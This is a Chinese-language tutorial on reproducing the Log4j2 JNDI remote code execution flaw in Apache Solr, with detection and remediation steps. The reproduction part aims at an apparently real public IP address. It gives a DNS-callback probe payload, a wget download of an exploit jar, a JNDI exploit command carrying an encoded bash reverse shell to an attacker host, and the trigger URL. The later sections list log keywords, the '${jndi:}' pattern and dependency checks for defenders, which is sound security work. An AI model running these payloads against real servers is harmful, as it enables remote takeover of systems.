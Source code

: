 ### Log4j2远程代码执行漏洞复现及漏洞修复

利用版本:

  * 2.0到2.14.1版本

#### 漏洞复现

  1. 漏洞触发点:`http://103.116.46.7:8983/solr/admin/cores?action=`

  2. 漏洞探测:`http://103.116.46.7:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.sxy8s9.dnslog.cn}`  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134905.png)

  3. 下载工具进行反弹shell`wget https://security-1258894728.cos.ap-beijing.myqcloud.com/writeup/vulhub/log4j/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`

  4. 运行`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YOUR-BASE64-ENCODE}|{base64,-d}|{bash,-i}" -A "YOUR-ATTACK-VPS-IP"`

  5. 方式一:网址输入:`http://103.116.46.7:8983/solr/admin/cores?action=${jndi:ldap://YOUR-ATTACK-VPS-IP:1389/Exploit}`

  6. 方式二将上方抓包改为POST传参

  7. 结果  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134906.png)

#### 检测手段

  1. 相关用户可根据Java jar解压后是否存在org/apache/logging/log4j相关路径结构，判断是否使用了存在漏洞的组件，若存在相关Java程序包，则很可能受漏洞影响。  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134907.png)

  2. 若程序使用Maven打包，可查看项目的pom.xml文件中是否存在下图所示的相关字段，若版本号为小于2.15.1，则应用受漏洞影响。  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134908.png)

  3. 若程序使用gradle打包，可查看build.gradle编译配置文件，若在dependencies部分存在org.apache.logging.log4j相关字段，且版本号为小于2.15.1，则应用受漏洞影响。  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134909.png)

攻击排查:

  1. 攻击者在利用漏洞前通常采用dnslog方式进行扫描、探测，常见的漏洞利用方式可通过应用系统报错日志中的`"javax.naming.CommunicationException"、"javax.naming.NamingException: problem generating object using object factory"、"Error looking up JNDI resource"`关键字进行排查。  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134910.png)

  2. 攻击者发送的数据包中可能存在"${jndi:}" 字样，推荐使用全流量或WAF设备进行检索排查。  
![](https://gitee.com/fuli009/images/raw/master/public/20230217134911.png)

#### 修复建议

##### 将 log4j-core 升级到 2.15.0 版本
